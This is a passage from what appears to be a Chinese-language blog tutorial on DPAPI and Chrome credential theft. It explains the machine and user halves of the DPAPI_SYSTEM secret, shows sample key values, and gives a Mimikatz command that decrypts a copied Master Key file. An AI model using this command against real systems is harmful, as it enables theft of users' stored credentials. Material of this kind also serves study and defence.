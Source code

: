 ![image-20250929194411597](/assets/posts/2025-09-30-a-journey-into-dpapi-and-chrome-theft/image-20250929194411597.png)

上图中可以看到，DPAPI_SYSTEM 值（full）包含两部分，前半段 “1e6ea4d324c446648c024c4ad301049628bccf60” 被称为机器密钥（Machine Key），后半段 “b08b821574f1020edbc98883ba3ddf012714ed66” 被称为用户密钥（User Key），后者一般用来加密机器/系统的 Master Key。

（4）在 `%APPDATA%\Microsoft\Protect\<sid>` 目录下找到与 {bc01a1a5-999c-4652-bc65-9e3c79ebcce5} 对应的 Master Key file，并拷贝到本地，通过 Mimikatz 进行解密。

```powershell
dpapi::masterkey /in:"bc01a1a5-999c-4652-bc65-9e3c79ebcce5" /system:"1e6ea4d324c446648c024c4ad301049628bccf60b08b821574f1020edbc98883ba3ddf012714ed66" /protected
```
